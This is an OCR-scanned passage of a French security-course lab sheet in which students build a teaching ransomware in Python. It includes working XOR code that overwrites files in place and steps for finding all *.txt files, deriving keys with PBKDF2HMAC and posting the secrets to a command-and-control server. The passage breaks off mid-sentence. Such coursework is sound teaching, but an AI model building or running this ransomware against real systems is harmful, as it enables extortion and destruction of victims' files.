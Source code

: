Chiffrement
Dans le repertoire sources se trouve un fichier xorcrypt.py :
Q1 : Quelle est le nom de l'algorithme de chiffrement ? Est-il robuste et pourquoi ?
Trouver les fichiers
Écrire la methode get_files(self, filter:str)->list dans la classe Ransomware afin d'être
en mesure de récupérer tout les fichiers donc l'extension match le filtre. Dans le cadre de notre
TD, on souhaites trouver tous les fichiers *.txt avec leur chemin absolue. La sortie attendu est
une liste de string.
Tips : La bibliothèque standard Path contient un foncttion rglob .
Génération des secrets
L'efficacité d'un ransomware repose en partie sur la sécurité de ses secrets. Bien sûre, différentes
approches existent mais nous allons ici rester simple. Un sel et une clef privée doivent être
générée à partir d'une source aléatoire cryptographique. A l'issue, ces deux données doivent être
hachées avec la fonction PBKDF2HMAC . Implémentez la méthode do_derivation(self,
salt:bytes, key:bytes)->bytes et la méthode create(self)->Tuple[bytes, bytes, bytes]
dans la classe secret_manger .
Tips : Le rédacteur du TD à négligemment oublié de retirer les imports. Vous avez donc
directement les bonnes lib/fonctions de disponibles.
from itertools import cycle
def xorcrypt(data:bytes, key:bytes)->bytes:
# encrypt and decrypt bytes
# Loop the key (abc become abcabcabcab....)
infinite_key = cycle(key)
# create couple from data and key.
match = zip(data, infinite_key)
# XOR key and data
tmp = [a ^ b for a,b in match]
# return encrypted or decrypted data
return bytes(tmp)
def xorfile(filename:str, key:bytes)->bytes:
# encrypt and decrypt file
# load the file
with open(filename, "rb") as f:
plain = f.read()
# Do the job
encrypted = xorcrypt(plain, key)
# write the result on the same file
with open(filename, "wb") as f:
f.write(encrypted)
D'un côté, il doit être facile de trouvé un exemple avec PBKDF2HMAC et hashes.SHA256 pour faire
une dérivation de clef; D'un autre côté, la bibliothèque standard secrets fait des miracles avec
token_bytes . N'oubliez pas d'utiliser les constantes déjà définies !
Q2 : Pourquoi ne pas hacher le sel et la clef directement ? Et avec un hmac ?
Enrollement
Il vous faut maintenant faire parvenir à votre CNC tous les éléments cryptographiques. Vous
devez donc coder la fonction post_new(self, salt:bytes, key:bytes, token:bytes)->None
dans la classe SecretManager . Pour cela vous pouvez utiliser la fonction post de la bibliothèque
requests pour envoyé le json suivant :